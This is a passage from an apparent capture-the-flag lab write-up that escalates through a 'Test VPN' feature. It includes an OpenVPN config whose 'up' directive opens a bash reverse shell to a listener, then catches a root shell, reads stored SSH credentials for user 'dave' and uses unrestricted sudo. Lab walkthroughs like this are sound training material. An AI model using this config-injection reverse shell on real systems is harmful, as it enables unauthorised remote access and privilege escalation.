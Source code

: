<figure><img src="../../../.gitbook/assets/image (43) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can input the following file and run Test VPN.&#x20;

```
remote 192.168.122.1
dev tun
nobind
script-security 2 
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/4444 0>&1'"
```

Take note that we have to use the IP address **of the machine** and not our own. With the SSH access we have, we can open a listener port and catch a root shell:

<figure><img src="../../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

Here, we can grab the user flag from `/home/dave`. Then we can find more credentials for `dave` on this machine:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

We can then SSH in as `dave` on the DNS server. This helps to upgrade our shell.

<figure><img src="../../../.gitbook/assets/image (44) (4).png" alt=""><figcaption></figcaption></figure>

We are allowed to run `sudo` on everything as `dave` within the DNS server, so regaining root permissions is easy.

### Vault

There was nothing else to be done with the DNS server or other IP addresses. Then, I remembered that there was a **Vault** entry that did not have an IP address. I wanted to find this IP address, so I read the `/etc/hosts` file.
